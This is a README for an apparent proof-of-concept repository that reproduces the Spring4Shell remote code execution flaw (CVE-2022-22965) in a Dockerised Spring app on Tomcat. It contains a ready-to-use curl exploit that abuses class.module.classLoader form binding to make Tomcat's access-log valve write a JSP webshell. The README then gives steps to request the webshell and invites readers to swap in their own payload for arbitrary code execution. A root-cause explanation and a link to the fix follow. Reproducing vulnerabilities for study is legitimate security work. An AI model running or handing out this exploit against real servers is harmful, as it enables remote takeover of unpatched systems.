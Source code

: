 # spring-rce-poc

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Run using docker compose

1. Build the application using Docker compose
    ```shell
    docker-compose up --build
    ```
2. To test the app browse to [http://localhost:8080/handling-form-submission-complete/greeting](http://localhost:8080/handling-form-submission-complete/greeting)
3. Run the exploit
    ```shell
    ./exploits/run.sh
    ```
4. The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.
5.  Use the exploit
Browse to [http://localhost:8080/handling-form-submission-complete/rce.jsp](http://localhost:8080/handling-form-submission-complete/rce.jsp)


## Alternative way (debug oriented)

1. Run the Tomcat server in docker
    ```shell
    docker run -p 8888:8080 --rm --interactive --tty --name vm1 tomcat:9.0
    ```
    _Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._
2. Build the project
    ```shell
    ./mvnw install
    ```
3. Deploy the app
    ```shell
    docker cp target/handling-form-submission-complete.war vm1:/usr/local/tomcat/webapps
    ```
4. Write the exploit
    ```shell
    curl -X POST \
      -H "pre:<%" \
      -H "post:;%>" \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}iSystem.out.println(123)%{post}i' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/handling-form-submission-complete' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
      http://localhost:8888/handling-form-submission-complete/greeting
    ```
    The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

5. Use the exploit
    ```shell
    curl http://localhost:8888/handling-form-submission-complete/rce.jsp
    ```
    Now you'll see `123` in the container's terminal. Replace `System.out.println(123)` with your payload to execute arbitrary code.

## Short technical explanation

1. Spring knows how to bind form fields to Java object. In our example `GreetingController` handle POST requests on `/greeting` endpoint and binds form fields to the `Greeting` object.
2. It also supports binding of nested fields (e.g. `user.info.firstname`). See the [AbstractNestablePropertyAccessor](https://github.com/spring-projects/spring-framework/blob/8baf404893037951ac29393a41d40af4fa11775b/spring-beans/src/main/java/org/springframework/beans/AbstractNestablePropertyAccessor.java#L622) for references.
3. In our example `Greeting` class has two fields `id` and `content`, but actually it also has a reference to the Class object. We can use `class.module.classLoader` as a form data key to access the classloader.
4. In the [fix](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15) we can see that the main change was to restrict access to most of the Class object properties, including the `module` one.
5. This behaviour allows us to set public properties of classes accessible via nested reference chain from the `Greeting` class. Nothing else. In most of the cases it is not even dangerous because no classes with public fields are available even from `class.module.classLoader.`.
6. It becomes a problem on the Tomcat server because the classloader there has [`getResources` accessor](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/loader/WebappClassLoaderBase.html#getResources()) which allows us to continue the reference chain and access one of the instances of [the `AccessLogValve` class](https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html).
7. This class is meant to write logs. We change some properties to make it write files with the name and content of our choice. We have arbitrary file write at this point.
8. We create `jsp` file with in the root of the application folder with the malicious payload. As far as `jsp` are automatically executed by the Tomcat we can navigate to it in the browser and eventually execute the payload. Now it is RCE.

## Conditions

The exploit works only on Tomcat because it has special classloader. Although the similar reference chain may exist on other web application servers as well. It is not simply discovered yet.

The exploit requires Java 9 or above because `module` property was added in Java 9.

## References

- The server part is based on the https://gist.github.com/esell/c9731a7e2c5404af7716a6810dc33e1a step-by-step manual.
- The exploit part is based on https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py script.
- Snyk advisory about the vulnerability is available here: https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751 

